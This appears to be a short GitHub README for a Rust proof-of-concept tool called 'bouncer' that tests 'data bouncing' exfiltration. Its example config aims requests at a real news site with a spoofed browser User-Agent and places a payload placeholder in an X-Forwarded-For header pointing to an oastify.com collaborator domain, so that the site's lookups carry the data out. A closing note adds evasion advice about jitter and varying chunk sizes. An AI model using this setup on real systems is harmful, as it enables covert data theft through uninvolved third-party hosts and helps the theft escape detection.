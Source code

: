 # bouncer
Simple rust program to test databouncing exfiltration.

## Usage
To use this prgram, first make a config file to set the required parameters needed, an example of this is the following config:
```toml
# Target host vulnerable to data bouncing
target_url = "https://newsweek.com"

# Headers to be used on the request
[headers]
# User Agent for OPSEC
User-Agent = "Mozilla/5.0 (X11; Linux x86_64; rv:138.0) Gecko/20100101 Firefox/138.0"
# Example of a header for bouncing
"X-Forwarded-For" = "{{PAYLOAD}}.3x1t0ww9j0gh3npdfsq1kffh78d71xpm.oastify.com"
```

After this just run the `make` command to build the program or run `make debug` to have logging enabled.

P.S: the data being exfiltrated is just a small string, in a real world you would also avoid delivering information chunks continously (witout jitter between requests) or the same size everytime, take this program just a Proof of Concept.
